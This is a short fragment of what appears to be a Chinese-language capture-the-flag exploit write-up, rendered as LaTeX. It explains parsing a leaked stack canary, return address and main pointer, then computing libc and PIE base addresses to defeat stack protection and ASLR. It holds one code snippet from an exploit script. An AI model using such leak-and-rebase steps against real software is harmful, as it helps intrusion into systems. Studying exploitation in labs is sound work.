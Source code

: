 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\end{Shaded}

\texttt{recvuntil(b"(2)\ \allowbreak{}\textgreater{}\allowbreak{}\ \allowbreak{}")} 會把「leak 輸出 +
下一個提示字元」一起收到，所以要把提示字元切掉。 （stdout 是
\texttt{\_\allowbreak{}IONBF} 無緩衝，所以 leak 一定會先到。）

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{    canary, saved\_rbp, ret, mainp }\OperatorTok{=}\NormalTok{ (}\BuiltInTok{int}\NormalTok{(x, }\DecValTok{16}\NormalTok{) }\ControlFlowTok{for}\NormalTok{ x }\KeywordTok{in}\NormalTok{ raw.split(}\StringTok{b"|"}\NormalTok{))}

    \ControlFlowTok{if}\NormalTok{ canary }\OperatorTok{\&} \BaseNTok{0xFF} \OperatorTok{!=} \DecValTok{0} \KeywordTok{or}\NormalTok{ ret }\OperatorTok{\&} \BaseNTok{0xFFF} \OperatorTok{!=}\NormalTok{ RET\_OFF\_IN\_LIBC }\OperatorTok{\&} \BaseNTok{0xFFF}\NormalTok{:}
        \ControlFlowTok{return} \VariableTok{None}                     \CommentTok{\# 檢查 leak 合理性，不合理就重連}
\NormalTok{    libc\_base }\OperatorTok{=}\NormalTok{ ret   }\OperatorTok{{-}}\NormalTok{ RET\_OFF\_IN\_LIBC}
\NormalTok{    pie\_base  }\OperatorTok{=}\NormalTok{ mainp }\OperatorTok{{-}}\NormalTok{ MAIN\_OFF\_IN\_PIE}
\end{Highlighting}
\end{Shaded}

\texttt{sanity\ \allowbreak{}check}： * canary 最低位元組一定是 \texttt{0x00}（glibc
故意把最低 byte 設成 NUL，讓 \texttt{strlen}/\texttt{printf("\%\allowbreak{}s")}
這類字串函式不會不小心把 canary 洩漏出去）。 * 返回位址的後 3 個 nibble
一定跟 \texttt{0x2a1ca} 一樣（\texttt{...\allowbreak{}1ca}）。
\end{document}
